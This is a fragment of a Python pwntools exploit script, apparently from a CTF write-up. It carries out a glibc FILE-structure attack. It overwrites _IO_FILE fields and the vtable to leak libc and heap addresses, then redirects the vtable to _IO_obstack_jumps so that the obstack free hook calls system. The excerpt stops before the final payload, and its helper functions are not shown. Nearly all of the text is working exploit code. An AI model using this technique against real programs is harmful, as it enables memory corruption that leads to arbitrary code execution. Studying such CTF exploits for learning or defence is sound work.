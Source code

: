```python
_IO_backup_base = 0x50
_IO_save_end = 0x58
_markers = 0x60
_chain = 0x68
_fileno = 0x70
_mode=0xc0
_vtable = 0xd8


#executing _IO_file_doallocate to populate _IO_buf_base with a heap address

trick(_vtable, 0xa8)
flush()
#Some sleeps around the binary because the latency was too much, to exploit remote I have to use a vps to launch the binary.
sleep(1)

#restoring the vtable
trick(_vtable, 0xa0)
#making  _IO_write_ptr > _IO_write_base 
trick(_IO_write_ptr, 1)
flush()
sleep(1)
#leaking libc
trick(_fileno, 1)
trick(_IO_write_ptr, 0x78)
trick(_IO_write_base, 0x70)
trick(_IO_read_end, 0x70)
flush()
sleep(1)
#receiving the leak and calculating libc base address
leak = u64(r.recvuntil(b"Done.").split(b"Done.")[0][1:8].ljust(8,b"\x00"))
log.info(f"leak = {hex(leak)}")
libc.address = leak - 0x1e8f60
log.info(f"libc = {hex(libc.address)}")
#getting a heap leak
trick(_fileno, 1)
#calculating topchunf address in the main arena
topchunk = libc.address + 0x1ecbe0
log.info(f"top_chunk = {hex(topchunk)}")
write_addr(_IO_write_ptr, topchunk+8)
write_addr(_IO_write_base, topchunk)
write_addr(_IO_read_end, topchunk)

sleep(1)
flush()
#receiving the leak and calculating addresses
heap_leak = u64(r.recvuntil(b"Done.").split(b"Done.")[0][1:8].ljust(8, b"\x00"))
log.info(f"heap_leak = {(hex(heap_leak))}")
heap_base = heap_leak - 0x2480
log.info(f"Heap base = {hex(heap_base)}")

#shifting the vtable to point __sync to _IO_obstack_jumps 
shift_obstack_jumps = libc.address + 0x1e9218
log.info(f"shift_obstack_jumps = {hex(shift_obstack_jumps)}")
write_addr(_vtable, shift_obstack_jumps)

#writing the obstack struct pointers
write_addr(0xe0, heap_base+0x2a0)
write_addr(_flags, heap_base+0x2a0)

#setting arguments for CALL_FREEFUN within _obstack_newchunk
log.info(f"system = {hex(libc.sym.system)}")
```